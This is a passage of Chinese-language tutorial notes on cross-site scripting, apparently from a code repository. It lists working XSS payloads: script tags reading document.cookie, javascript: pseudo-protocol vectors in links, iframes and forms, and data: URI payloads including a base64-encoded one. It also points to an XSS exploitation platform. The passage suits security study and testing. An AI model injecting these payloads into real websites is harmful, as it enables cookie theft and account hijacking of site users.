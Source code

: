 - 如果js代码水平不够，可以使用xss平台或者xss利用工具来利用xss漏洞。
- 本质上是这些提供一个js文件，我们在xss漏洞处加载这个js文件就可以了。
- https://xss.pt/



## **怎样插入XSS？**

- [xss cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#event-handlers):这份备忘录记录了各种各样的xss代码，以及各种各样的绕过方式和payload在哪些浏览器上可以执行。

- html中使用js代码的方式：

    - **直接写在`<script></script>`标签内:**

        ```javascript
        <script type="text/javascript">
        	document.write('这里是一行JavaScript代码1');
        </script>
        
        <script>alert(document.cookie)</script>
        ```
    
    - 在属性值中使用javascript伪协议：
    
        - **可以通过[xss cheet sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#protocols)查看哪些属性支持js伪协议。**
    
        - 一般的输入url的属性是可以传入js伪协议的。
    
            - **为防恶意代码注入，一些新版本的浏览器已经禁用src属性的JavaScript伪协议，所以img标签的src属性不能用了，background这个属性也不能用了**。
    
            - 在`<a href="">`，`<iframe src="" >`，`<form action="" >`等可以使用
    
            - 可以使用多行js语句，但是需要`;`分隔。
            ```html
            <a href="javascript:var now = new Date(); '<h1>The time is:</h1>' + now;">hello</a>
            <a href=javascript:eval(alert('xss'))>aa</a> 
            
            <iframe src=javascript:alert('xss')><iframe> 
            
            <form action=javascript:alert('xss')> 
            <form action=javascript:alert('xss') method="get"> <form action=javascript:alert('xss')> 
            
            ```
            
            - 在url中还可以使用其他的伪协议：比如`data`
            
            - data协议支持以下2种类型：
            
                ```html
                data:text/html,HTML代码
                data:text/html;base64,base64编码的HTML代码
                ```
            
            - 会使用html解析器去执行该html代码。
            
                ```html
                <iframe src="data:text/html,<script>alert('xss')</script>"></iframe> 
                <iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
                <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
                